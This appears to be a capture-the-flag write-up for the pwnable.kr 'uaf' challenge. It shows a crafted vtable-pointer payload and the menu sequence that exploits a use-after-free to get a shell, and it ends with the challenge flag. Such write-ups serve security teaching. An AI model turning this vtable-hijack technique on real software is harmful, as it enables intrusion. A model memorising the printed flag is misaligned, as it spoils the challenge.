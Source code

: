 ## Requirements
Mommy, what is Use After Free bug?

ssh uaf@pwnable.kr -p2222 (pw:guest)

---
## Note  
keywords: - virtual tables

```sh
uaf@pwnable:~$ uname -a
Linux pwnable 4.4.179-0404179-generic #201904270438 SMP Sat Apr 27 08:41:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
uaf@pwnable:~$
```
## solution
```sh
echo '\x88\x15\x40\x00\x00\x00\x00\x00' > input.txt
./uaf 16 input.txt
1. use
2. after
3. free
1
My name is Jack
I am 25 years old
I am a nice guy!
My name is Jill
I am 21 years old
I am a cute girl!
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ cat flag      			
yay_f1ag_aft3r_pwning
$ 
```
**flag: yay_f1ag_aft3r_pwning**